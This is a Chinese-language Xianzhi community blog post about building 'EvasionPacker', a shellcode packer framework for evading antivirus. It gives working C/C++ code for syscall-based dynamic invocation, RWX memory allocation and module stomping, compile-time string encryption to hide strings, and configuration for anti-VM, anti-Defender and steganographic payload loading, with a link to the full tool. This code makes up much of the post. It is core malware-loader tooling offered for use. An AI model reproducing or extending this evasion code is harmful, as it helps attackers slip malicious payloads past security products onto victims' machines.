









# 免杀Packer框架开发-先知社区

> **来源**: https://xz.aliyun.com/news/16981  
> **文章ID**: 16981

---

成品<https://github.com/Arcueld/EvasionPacker>

# 前言

项目花了几天边玩边写整出来的 有很多没有抽出来的函数和合并函数 项目结构可能比较混乱 后面有时间可能会改(

# 大体架构分析

为了实现一个有效的Shellcode免杀框架，我们将框架拆解成以下几个核心模块，并对每个模块进行详细设计：

1. shellcode处理

该模块负责处理Shellcode 我们可以通过不同的方式载入Shellcode 如写死在.data段 分离加载 远程拉取

1. 内存分配

该模块负责分配private属性或者mapped属性的内存 给RW权限 解密shellcode

1. 执行方式

该模块负责提供多种执行Shellcode的方式

1. 杂项

该模块包括一些辅助功能，如反调试、反虚拟化等技术

1. 配置与控制

由于该框架作为一个Packer工具，需要具备一定的灵活性来适应不同的需求。因此，框架将通过config.h文件来管理全局变量和配置项 struct.h 则配置一些结构,枚举 增加可读性

1. GUI

让AI梭了一个出来 用的pyqt 用python的原因是shellcode处理部分好写

## 执行方式

我们先看执行方式部分

首先定义了一个结构 包含地址和长度两个成员

```
typedef struct _ExecuteShellcodeStruct {
     LPVOID lpMem;
     SIZE_T memSize;
 }ExecuteShellcodeStruct, * PExecuteShellcodeStruct;
```

执行方式的枚举

```
typedef enum _ExecutionMethod {
     AlertAPC,
     Fiber,
     WindowsHook,
     EnumCallback,
 }ExecutionMethod;
```

通过ExecuteShellcode函数进行shellcode的执行



ExecuteShellcode的实现如下 通过判断枚举 进入具体的执行方法



后续有扩展需求只需添加枚举 创建对应的函数实现即可

函数内关键的封装是DynamicInvoker类 如配置了syscall 则走syscall的实现 否则动态获取nt函数调用

```
class DynamicInvoker {
 public:
     static inline DynamicInvoker& get_instance() noexcept {
         static DynamicInvoker instance{};
         return instance;
     }
 
     template<typename Ret, typename... Args>
     static Ret Invoke(void* funcAddr, uint32_t funcHash, Args... args) {
         if (isSyscall) {
             __try {
                 return syscall.CallSyscall<Ret>(funcHash, args...);
             }
             __except (EXCEPTION_EXECUTE_HANDLER) {
                 using FuncType = Ret(*)(Args...);
                 FuncType func = reinterpret_cast<FuncType>(funcAddr);
                 return func(args...);
             }
         }
         else {
             if (funcAddr) {
                 using FuncType = Ret(*)(Args...);
                 FuncType func = reinterpret_cast<FuncType>(funcAddr);
                 return func(args...);
             }
             return (Ret)0xC0000001; // STATUS_UNSUCCESSFUL
         }
     }
 };
```

静态方法Invoke是模板方法 接收函数地址 hash 和对应参数

这里以NtProtectVirtualMemory为例

```
DWORD dwOldProtection = NULL;
LPVOID lpMem = shellcode;
SIZE_T size = shellcodeSize;
NTSTATUS status = DynamicInvoker::Invoke<NTSTATUS>(NtProtectVirtualMemoryStruct.funcAddr, NtProtectVirtualMemoryStruct.funcHash,
 (HANDLE)-1, &lpMem, &size, PAGE_EXECUTE_READWRITE, &dwOldProtection);
```

适用模板来指定返回值类型 在此是NTSTATUS

传递了NtProtectVirtualMemory的地址和hash后传入调用NtProtectVirtualMemory的具体参数

判断全局变量isSyscall的状态决定是否走syscall

如果syscall没有获取到ssn则动态调用函数

这里syscall的实现基于开源项目<https://github.com/evilashz/PigSyscall>

该项目是poc 多次调用在解密的时候会因为多次解密导致执行失败





加个判断 防止重复解密

```
if (((char*)stub_addr)[0] != 0x41) {
    pigsyscall::utils::CryptPermute((PVOID)stub_addr, strlen((char*)stub_addr), FALSE);
}
```

## 内存分配

```
NTSTATUS AllocateMem(LPVOID* lpMem,PSIZE_T size) {
    NTSTATUS status = 0xC0000001; 

    switch (allocateMethod) {
        case CASE_NtAllocateVirtualMemory: {

            status = dynamicInvoker.Invoke<NTSTATUS>(NtAllocateVirtualMemoryStruct.funcAddr, NtAllocateVirtualMemoryStruct.funcHash,
                (HANDLE)-1, lpMem, 0, size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

            break;
        }case CASE_NtMapOfView: {
            HANDLE hSection = NULL;
            SIZE_T secSize = *size;
            LARGE_INTEGER sectionSize = { secSize };
            pNtCreateSection NtCreateSection = (pNtCreateSection)GetProcAddressbyHASH(GetMoudlebyName(_wcsdup(ENCRYPT_WSTR("ntdll.dll"))), NtCreateSection_Hashed);

            status = NtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, &sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

            if (NT_SUCCESS(status)) {
                SIZE_T viewSize = *size;
                LPVOID mem = NULL;

                pNtMapViewOfSection NtMapViewOfSection = (pNtMapViewOfSection)GetProcAddressbyHASH(GetMoudlebyName(_wcsdup(ENCRYPT_WSTR("ntdll.dll"))), NtMapViewOfSection_Hashed);
                status = NtMapViewOfSection(hSection, (HANDLE)-1, lpMem, NULL, NULL, 0, &viewSize, ViewUnmap, NULL, PAGE_EXECUTE_READWRITE);

            }
            break;
        }case CASE_ModuleStomping: {
            HMODULE hModule = myLoadLibrary(ENCRYPT_WSTR("AppVIntegration.dll"));

            if (!hModule) return status;
            PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
            PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + dosHeader->e_lfanew);
            PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);

            // 查找.data段
            for (WORD i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
                if (memcmp(section[i].Name, ENCRYPT_STR(".data"), 5) == 0) {
                    DWORD oldProtect;
                    *lpMem = (LPVOID)((BYTE*)hModule + section[i].VirtualAddress);
                    *size = section[i].Misc.VirtualSize;

                    status = dynamicInvoker.Invoke<NTSTATUS>(NtProtectVirtualMemoryStruct.funcAddr,
                        NtProtectVirtualMemoryStruct.funcHash,
                        (HANDLE)-1, lpMem, size, PAGE_READWRITE, &oldProtect);
                    break;
                }
            }
            break;
        }
        default:
            break;
    }
    return status;
}
```

第一个NtAllocateVirtualMemoryStruct 对应private属性

第二个NtMapViewOfSection 对应mapped属性

第三个ModuleStomping 对应image属性 只能跑小的shellcode



## shellcode处理

暂时只写了本地和分离 没写远程拉取

加密部分只提供了XOR RC4 AES 感觉意义不大就只提供了三种

SGN调用及加密部分在py实现

分离加载使用lsb隐写入随机生成的图片名称可自定义

## 杂项

defender的专项对抗使用<https://github.com/hfiref0x/UACME/blob/master/Source/Shared/windefend.c>

只是把里面的WindowsAPI全替换成了动态调用

还有一些常见的反沙箱技术

使用编译时加密 隐藏一些字符串

```
class StringEncryption {
private:
static constexpr BYTE key[] = { 0x51, 0x23, 0x97, 0xE8, 0xDC, 0xBA, 0x45, 0x67 };

public:
template<typename T>
static constexpr size_t GetLength(const T* str) {
    size_t len = 0;
    while (str[len] != 0) len++;
    return len + 1;
}

template<size_t N>
class EncryptedString {
private:
char data[N];
bool decrypted;

static void Transform(char* str, size_t len) {
    for (size_t i = 0; i < len; i++) {
        str[i] = str[i] ^ key[i % sizeof(key)] ^ (i & 0xFF);
    }
}

public:
constexpr EncryptedString(const char* str) : data{}, decrypted(false) {
    for (size_t i = 0; i < N; i++) {
        data[i] = str[i] ^ key[i % sizeof(key)] ^ (i & 0xFF);
    }
}

operator const char* () {
    if (!decrypted) {
        Transform(data, N);
        decrypted = true;
    }
    return data;
}
};

template<size_t N>
class EncryptedWString {
private:
wchar_t data[N];
bool decrypted;

static void Transform(wchar_t* str, size_t len) {
    for (size_t i = 0; i < len; i++) {
        WORD* ptr = reinterpret_cast<WORD*>(&str[i]);
        *ptr = *ptr ^ ((key[i % sizeof(key)] << 8) | key[(i + 1) % sizeof(key)]);
    }
}

public:
constexpr EncryptedWString(const wchar_t* str) : data{}, decrypted(false) {
    for (size_t i = 0; i < N; i++) {
        WORD value = static_cast<WORD>(str[i]);
        value = value ^ ((key[i % sizeof(key)] << 8) | key[(i + 1) % sizeof(key)]);
        data[i] = static_cast<wchar_t>(value);
    }
}

operator const wchar_t* () {
    if (!decrypted) {
        Transform(data, N);
        decrypted = true;
    }
    return data;
}
};
};

#define ENCRYPT_STR(str) []() -> const char* { \
static StringEncryption::EncryptedString<StringEncryption::GetLength(str)> encrypted(str); \
return encrypted; \
}()

#define ENCRYPT_WSTR(str) []() -> const wchar_t* { \
static StringEncryption::EncryptedWString<StringEncryption::GetLength(L##str)> encrypted(L##str); \
return encrypted; \
}()
```





## 配置与控制

基于config.h的全局变量来判断

```
#pragma once
#include <Windows.h>
#include "Struct.h"
#include "Tools.h"

//  ====================  CONFIG  ==========================
static BOOLEAN isSyscall = TRUE;
static EncryptMethod encryptMethod = CASE_RC4;
static ExecutionMethod ExecMethod = EnumCallback;
static EnumMethod enumMethod = CASE_EnumSystemLocales;
static BOOLEAN EnableAntiVM = FALSE;
static BOOLEAN AntiDefenderVM = TRUE;
static BOOLEAN trick_DllGetClassObject = TRUE;
static BOOLEAN trick_SxInDll = TRUE;
static AllocateMethod allocateMethod = CASE_ModuleStomping;
static BOOLEAN checkVXQQ = TRUE;
static BOOLEAN EnableSteg = FALSE;
static wchar_t const* stegPath = ENCRYPT_WSTR("\1.png");
// ==================== CONFIG END ==========================
```

python直接模板替换

```
//  ====================  CONFIG  ==========================
static BOOLEAN isSyscall = {syscall};
static EncryptMethod encryptMethod = {encrypt_method};
static ExecutionMethod ExecMethod = {exec_method};
static EnumMethod enumMethod = {enum_method};
static BOOLEAN EnableAntiVM = {enable_antivm};
static BOOLEAN AntiDefenderVM = {anti_defender};
static BOOLEAN trick_DllGetClassObject = {dll_trick};
static BOOLEAN trick_SxInDll = {sx_trick};
static AllocateMethod allocateMethod = {alloc_method};
static BOOLEAN checkVXQQ = {check_VXQQ};
static BOOLEAN EnableSteg = {enable_steg};
static wchar_t const* stegPath = ENCRYPT_WSTR("\\{steg_path}");
// ==================== CONFIG END ==========================
```

# 效果

用的calc的shellcode测试 静态还算看得过去吧




